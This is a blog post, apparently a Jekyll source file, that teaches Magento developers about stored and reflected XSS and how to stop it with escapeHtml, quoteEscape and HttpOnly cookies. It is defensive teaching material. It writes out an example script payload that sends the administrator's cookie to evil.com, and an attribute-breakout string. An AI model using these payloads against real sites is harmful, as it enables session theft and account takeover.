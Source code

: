 ```yaml
---
layout: blog-single
title: An Intro To XSS For Magento Developers
description: In this post, I cover the basics of XSS, specifically as they relate to Magento
date: June 15, 2017
image: /img/blog/magento-xss-intro/magento-xss@2x.jpg
tags: [magento, security]
ad: domain-clamp-ad-b.html
---
```


XSS is an abbreviation which stands for "Cross Site Scripting". It is a classification of cyber-attack which is currently listed as #3 on [the OWASP top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project). In this post, I'll explain, in detail, what XSS is, and outline what you need to know about it, as a Magento developer

<!-- excerpt_separator -->

### The Idea

The idea behind XSS, is that an attacker executes unauthorized malicious scripts in the context of another user's session. I find the name "cross site scripting" a bit misleading as there is not always a "cross site" involved in the attack. Often the malicious scripting is handled inline, rather than via a `<script>` loaded from an external site ("cross site"). As such, I prefer the name "script injection". However, this type of attack is universally known as XSS, so that's the name I'll use here.

### An Example

Let me give you an example. When an administrator views the dashboard of the admin panel on both Magento 1 and 2, they'll see a listing of search recent search terms.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg 1x, /img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@2x.jpg 2x"
  alt="A screenshot showing the recent search terms widget in the Magento 2 admin panel dashboard">

This is just a feed of terms typed into the search bar on a Magento site.

What if, as an attacker I executed the following search...

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento-xss@1x.jpg 1x, /img/blog/magento-xss-intro/magento-xss@2x.jpg 2x"
  alt="Magento XSS">

If Magento did nothing to protect against XSS, this would get stored in the database. Then, the next time an administrator logged into the admin panel my search term would be rendered in this feed. 

Again, if Magento took no action to prevent against XSS \<script>document.write('\<img src="http://evil.com/?cookie=' + document.cookie + '">')\</script> would not be rendered as text, but would actually be executed as JavaScript. This script would add an image to the page that would wind up sending a request to evil.com (presumably a site controlled by the attacker) along with the admininstrator's cookie.

Then, the attacker would be able to access the Magento admin panel without any authentication, simply by supplying the administrator cookie with their request.

### What Can Unauthorized Scripts Do

Cookie theft is the classic example of XSS. However, Magento provides a layer of protection against that via its "Use HTTP Only" cookie setting. I have [an entire blog post devoted to that setting]({{ site.baseurl }}{%  link _posts/2017-03-08-magentos-use-http-only-cookie-setting.md %}), but the tl;dr; is that it sets cookies on the browser using [the `HttpOnly` flag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies), which prevents them from being accessed by scripts. You should use it.

 Still, there are other bad things that attackers can do via XSS. For example, they could use `window.location` to redirect you to a phishing site that poses as an official Magento site and prompts you enter your administrator user name and password. They could also read the referrer URL which will disclose your admin front name and read your admin user name and form key from the document. 
 
Suffice it to say, XSS is still a concern even with cookies set to `HttpOnly` and is something you want to protect against.

### Different Types Of XSS

There are two different classifications of XSS, stored XSS and reflected XSS. The example I've just described is classified as stored XSS, because the content used to carry out the attack has been stored in the database.

Reflected XSS, on the other hand, is XSS that happens as a result of data in the URL request string. For example, what if an attacker could trick you to click on a link with the malicious payload in the URL.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/reflected-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/reflected-xss@1x.jpg 1x, /img/blog/magento-xss-intro/reflected-xss@2x.jpg 2x"
  alt="Magento Reflected XSS">

Without any protection against XSS this malicious script will be executed, and will send your frontend cookie to evil.com. The attacker could then log in as you and place fraudlent orders using your saved credit card.

While reflected XSS is not good, stored XSS is typically considered more severe as the attacker does not need to trick the victim into taking a specific action.

### The Solution

Their are two solutions for XSS, input validation and output escaping. For example, Magento could look at the search term, see the `<script>` tag any reject is as invalid.

In this example, however, search queries including the string \<script> **are** considered valid queries by Magento. So the next solution is output escaping.

The idea here is to convert the word `<script>` to `&lt;script&gt` before outputing. Then, when rendered by the browser the user will see the word "\<script>" as a string of text and the script will not be executed. This strategy is employed by Magento to protect against both the stored, and reflected example described earlier.

Input validation and output escaping are not mutually exclusive. You should be doing both.

### How Do We Do This In Magento

Magento provides documentation on output escaping for Magento 2 [here](http://devdocs.magento.com/guides/v2.0/frontend-dev-guide/templates/template-security.html). When outputting untrusted text, you should use `escapeHtml`. This will use the PHP function `htmlspecialchars` to convert `<` to `&lt;`.

Additionally, when outputting untrusted data in HTML attributes, we need to be careful. For example, the attacker could use the following query to break out of an attribute and execute scripts.

`Shoes" onhover="alert('xss')"`

For HTML attributes you should use `quoteEscape` which will escape both single and double quotes.

### In Scope vs. Out Of Scope XSS

According to [Magento's official bug bounty](https://bugcrowd.com/magento), protecting against XSS by administrators to front end users is out of scope. It is an acknowledged part of the platform that administrators are able to output and have rendered scripts during front end users sessions.

> Cross-Site Scripting (XSS) bugs in the admin interface (URLs containing /admin/) where the code is only executed in front end context but not in admin context are excluded. Merchants are explicitly allowed to use active content when designing their stores, so this is a required feature. The admin XSS capability does not give the administrator any additional powers to do harm beyond what other administrative features already allow

However, administrators should non be able to render and have executed scripts in the context of other administrator users as this could facilitate privilege escalation.

> XSS issues where an administrator with limited access can impact other administration pages are valid.

Additionally, as we've seen in the example of this post, front end users should certainly not be able to execute XSS in the context of admin user sessions.

### Conclusion

I hope this post came in useful for some people. If you have any questions or comments, feel free to drop a note below, or, as always, you can reach me on [Twitter](http://twitter.com/maxpchadwick) as well.